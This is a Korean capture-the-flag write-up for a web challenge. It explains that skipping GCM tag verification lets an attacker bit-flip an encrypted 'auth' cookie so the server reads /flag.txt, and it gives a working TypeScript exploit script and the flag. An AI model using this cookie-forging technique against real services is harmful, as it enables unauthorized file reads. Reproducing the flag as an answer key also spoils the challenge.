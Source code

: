 여기서 집중해야 하는 부분은 `makeAuth`와 `needsAuth` 함수이다.
각각 `auth` 쿠키를 생성하고, `auth` 쿠키를 확인하는 함수이다.
`aes-256-gcm`을 사용하여 암호화를 하고 있다.<br>
그리고, `GET /`에서 `tmpfile`을 읽어온다.

즉, `auth` 쿠키를 조작하여 `tmpfile`를 `/flag.txt`를 가리키도록 만들어 `flag`을 읽어올 수 있다.

그런데, `aes-256-gcm`을 사용하고 있기 때문에 어떻게 `auth` 쿠키를 조작하기에는 어려움이 있어 보였다.
그러나, `needsAuth`에서 `cipher.final`을 호출하고 있지 않기 때문에, **인증 태그 검증 없이 암호문을 복호화**하기 때문에 이를 악용하여 `auth` 쿠키를 조작할 수 있다.

```typescript title="exploit.ts"
import { logger } from '@utils';
import { create } from '@web';

const r = create({
  baseURL: 'http://localhost:8080',
  ignoreHttpErrors: true,
});

await r.get('/');

const [iv, authTag, ct] = (r.getCookie('auth') as string)
  .split('.')
  .map((v) => Buffer.from(v, 'base64'));

const target = `{"tmpfile":"/flag.txt","a":"`;
const origin = `{"tmpfile":"/tmp/pastestore/`;

for (let i = 0; i < target.length; i++) {
  ct[i] = ct[i] ^ target[i].charCodeAt(0) ^ origin[i].charCodeAt(0);
}

r.setCookie(
  'auth',
  `${iv.toString('base64')}.${authTag.toString('base64')}.${ct.toString('base64')}`,
);

await r.get('/').then((res) => logger.flag(res.data.match(/lactf{.*}/)));
```

`lactf{m4yb3_st1ck_t0_l1br4r1es_wr1tt3n_by_comp3t3nt_p3opl3}`
